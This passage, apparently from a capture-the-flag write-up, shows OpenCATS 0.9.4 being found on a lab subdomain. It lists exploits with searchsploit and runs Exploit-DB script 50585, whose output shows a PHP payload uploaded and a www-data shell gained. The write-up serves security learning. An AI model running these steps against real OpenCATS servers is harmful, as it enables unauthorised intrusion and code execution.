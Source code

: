 Here we can obtain some useful info. Now we know that "OpenCATS" is running on this subdomain, which is a free and open-source ATS. We can also see the version being used:

<p align="center"><img src="files/atsV.png"></p>

I used `searchsploit` to see if there is any exploits for `OpenCats 0.9.4` and found an RCE one:

~~~
└─$ searchsploit OpenCats 0.9.4
--------------------------------------------------------------- -----------------------
 Exploit Title                                                 |  Path
--------------------------------------------------------------- -----------------------
OpenCATS 0.9.4 - Remote Code Execution (RCE)                   | php/webapps/50585.sh
OpenCats 0.9.4-2 - 'docx ' XML External Entity Injection (XXE) | php/webapps/50316.py
--------------------------------------------------------------- -----------------------
Shellcodes: No Results
~~~

### Exploit to RCE

The exploit is a bash script with the EDB-ID of `50585` which you can get [here](https://www.exploit-db.com/exploits/50585). The exploit takes a URL and does the job for us (I use the `rlwrap` to be able to edit my commands easier):

~~~
└─$ rlwrap ./exploit.sh http://job.empline.thm/
 _._     _,-'""`-._ 
(,-.`._,'(       |\`-/|        RevCAT - OpenCAT RCE
    `-.-' \ )-`( , o o)         Nicholas  Ferreira
          `-    \`_`"'-   https://github.com/Nickguitar-e 

[*] Attacking target http://job.empline.thm/
[*] Checking CATS version...
-e [*] Version detected: 0.9.4
[*] Creating temp file with payload...
[*] Checking active jobs...
./exploit.sh: 105: [[: not found
-e [+] Jobs found! Using job id 1
[*] Sending payload...
-e [+] Payload KEq2y.php uploaded!
[*] Deleting created temp file...
[*] Checking shell...
-e [+] Got shell! :D
uid=33(www-data) gid=33(www-data) groups=33(www-data)
~~~